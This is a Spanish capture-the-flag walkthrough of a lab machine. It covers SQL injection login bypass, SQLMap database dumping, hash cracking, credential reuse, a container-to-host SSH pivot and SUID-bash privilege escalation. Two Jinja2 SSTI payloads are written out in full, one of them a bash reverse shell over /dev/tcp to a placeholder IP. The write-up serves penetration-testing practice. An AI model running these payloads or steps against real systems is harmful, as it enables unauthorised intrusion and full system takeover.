----

Empezamos con la resolución de la máquina, haciendo un **ping** para comprobar si tenemos conexión:



Podemos ver que hay conexión, enviamos un paquete y recibimos un paquete.

El siguiente paso es **escanear los puertos abiertos** de la máquina víctima para ver por donde podemos entrar, para ello usamos _nmap_ para primero hacer un escaneo sencillo:



Podemos ver que solo se encuentra abierto el **puerto 80**, es decir que hay una web por detrás. 

Para ver el contenido, copiamos la IP en el navegador:



Esto es lo que vemos en la web:



En una esquina de la web, veremos este icono de usuario:


Si lo seleccionamos, nos aparecerá este panel de login:



Algunos detalles de la máquina, es que se usan técnicas de SQL Injection y uso de SQLMap:



Con estos detalles en mente, podemos iniciar el **Burpsuite** para interceptar solicitudes HTTP:



Pondremos credenciales en el panel, sean validas o no, nos valen para proseguir en el siguiente paso:



Con **Burpsuite** interceptamos la solicitud y veremos esto: 



Lo que haremos será modificar esta solicitud de esta forma que se trata de una inyección SQL básica: 



De esta forma podremos ingresar a la web sin problemas, aunque las credenciales no sean validas:



Esto nos llevará al panel principal del administrador: 



De momento no podemos hacer mucho aquí, así que lo haremos será ver la base de datos que tiene la web por detrás usando **SQLMap**. 

Podemos ver la solicitud HTTP:



Tal cual la tenemos así, la copiamos en una archivo de texto:



Lo que haremos con esto será usar **SQLMap**, primero ejecutamos este comando sencillo: 



Podemos ver que no sale ningún error, así que ahora haremos que **SQLMap** nos muestre las base de datos: 



Hay 2 bases de datos, y la que me parece interesante es la *main*:



Podemos ver las tablas que contiene usando este comando:




Hay datos de usuario dentro de la tabla *user*, para ver lo que contiene basta con este comando:




Ya podemos ver el nombre de usuario *admin* junto con una contraseña en formato *hash*. 

Para sacar la contraseña, usamos la web **Crackstation.net**: 



Ya podemos ver la contraseña en texto plano:




Ahora que ya tenemos credenciales validas por iniciar sesión sin que tener interceptar: 



Nos volvemos a encontrar el mismo panel que antes: 


En este punto, encontré un icono de configuración en la esquina derecha del panel: 


Y dentro encontramos este dominio nuevo: 



Podemos ver el contenido, añadiéndolo al */etc/hosts*: 




Podemos ver un panel de login, en este caso, usé las mismas credenciales de antes: 



Parece ser que esta máquina tiene ***reutilización de credenciales***, porque pude iniciar sesión. 

Ahora ya vemos que somos el usuario **admin**: 



Podemos acceder a esta sección de la web, donde podemos modificar credenciales de usuario: 



Probé a cambiar el nombre de usuario con estos datos:



El resultado es este, los cambios resultaron bien:


Estuve mirando las características de la máquina, y destaca la vulnerabilidad **SSTI** o **Server Side Template Injection**. Es decir, podemos inyectar código malicioso en el motor de plantillas para que sea interpretado por el servidor y tensarla potente:



Lo que hice fue hacer una simple operación matemática de esta forma en el campo del nombre de usuario: 



El resultado fue este: 



Podemos ver que el servidor interpreta la instrucción, ahora me puse la tarea de encontrar una forma de poder ejecutar comandos usando esta técnica. 

Encontré este artículo que contiene los comandos para ello: 



Primero ejecute este comando para obtener el **ID** del usuario a nivel de sistema en la web:



```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

El resultado fue este: 



Podemos ver que somos usuario **root** dentro del sistema, esto me gusta bastante, lo siguiente que haremos será lanzarnos una reverse shell usando esta misma técnica:



```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<ip>/443 0>&1"').read() }}
```

Cambiamos los valores que tenga por los que tengamos nosotros, y antes de ejecutar esta instrucción, nos ponemos en escucha:



Ya estamos dentro de la máquina, un detalle muy importante para tener en cuenta, es que estamos dentro de un  **contenedor de Docker**  por el hostname que tiene la máquina.

En este punto, me fuí al directorio */home* del sistema, pude ver que hay un usuario llamado **augustus**: 



Aunque no seamos usuario propio de la máquina, podemos ver el contenido de la primera flag:



Podemos ver que estamos dentro de un contenedor de **Docker**, mirando la IP del mismo: 



La IP es: 172.19.0.2, y podemos pasar a la máquina real usando otra IP dentro del mismo rango que sería la 172.19.0.1.

Podemos confirmar esto si tratamos de iniciar sesión como usuario **augustus** usando *ssh*: 



Y de casualidad, funciona: 



Desde aquí también podemos ver la flag anterior: 


En este punto quise probar algo, pude ver la flag tanto desde el contenedor como desde la máquina real, es decir, que el directorio se comparte. 

La prueba que hice fue crear un archivo desde el contenedor en este mismo directorio: 



Y podía ver el archivo desde la máquina real siendo **augustus**: 



Así que para escalar privilegios me aproveché del binario de la *bash*, copiandolo al directorio actual siendo **augustus**: 



Tras copiar el binario, ejecutamos los siguientes comandos siendo **root**: 



Haciendo que el binario solo pertenezca al usuario y grupo **root** y que el binario tenga permisos SUID a parte de que cualquier usuario pueda ejecutarlo. 
En otras palabras, ejecutamos el binario y seremos root máximo del sistema. 

Ahora nos metemos como usuario **augustus**, y aquí podemos ver el binario: 


Ahora lo ejecutamos de esta forma: 


Y ya solo queda ver la flag: 




